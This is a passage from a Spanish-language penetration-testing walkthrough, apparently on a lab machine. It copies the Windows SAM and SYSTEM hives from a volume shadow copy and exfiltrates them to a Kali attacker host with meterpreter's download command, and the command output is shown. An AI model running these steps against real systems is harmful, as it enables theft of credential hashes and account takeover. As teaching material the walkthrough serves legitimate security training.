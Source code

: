 - Copiamos los dos archivos target `SAM` y `SYSTEM` en una ruta de fácil acceso (Por ejemplo: `C:\Users\vagrant` o `C:\Windows\Temp`)

```bash
C:\Users\vagrant>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SAM C:\Users\vagrant
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SAM C:\Users\vagrant
        1 file(s) copied.

C:\Users\vagrant>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Users\vagrant
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Users\vagrant
        1 file(s) copied.
```

- (Opcional) Verificamos la presencia de `SAM` y `SYSTEM` en nuestra actual ruta.

```bash
C:\Users\vagrant>ls -lh SAM SYSTEM
ls -lh SAM SYSTEM
-rwxrwxr-x+ 1 SYSTEM SYSTEM 256K Nov  4 08:00 SAM
-rwxrwxr-x+ 1 SYSTEM SYSTEM 7.5M Nov  4 09:50 SYSTEM
```

- Similar a la forma que utilizamos el comando `upload` del meterpreter para subir el archivo `vssown.vbs`, esta vez utilizamos el comando `download` para descargar en el Kali las copias de los archivos `SAM` y `SYSTEM` que están en la copia del volumen shadow `C` recientemente creado. La sintaxis es `download ruta_origen_en_el_target ruta_destino_en_el_atacante`.

```bash
meterpreter > download C:\\Users\\vagrant\\SAM /home/user/Downloads
[*] Downloading: C:\Users\vagrant\SAM -> /home/user/Downloads/SAM
[*] Downloaded 256.00 KiB of 256.00 KiB (100.0%): C:\Users\vagrant\SAM -> /home/user/Downloads/SAM
[*] Completed  : C:\Users\vagrant\SAM -> /home/user/Downloads/SAM

meterpreter > download C:\\Users\\vagrant\\SYSTEM /home/user/Downloads
[*] Downloading: C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 1.00 MiB of 7.50 MiB (13.33%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 2.00 MiB of 7.50 MiB (26.67%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 3.00 MiB of 7.50 MiB (40.0%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 4.00 MiB of 7.50 MiB (53.33%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 5.00 MiB of 7.50 MiB (66.67%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 6.00 MiB of 7.50 MiB (80.0%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 7.00 MiB of 7.50 MiB (93.33%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Downloaded 7.50 MiB of 7.50 MiB (100.0%): C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
[*] Completed  : C:\Users\vagrant\SYSTEM -> /home/user/Downloads/SYSTEM
```
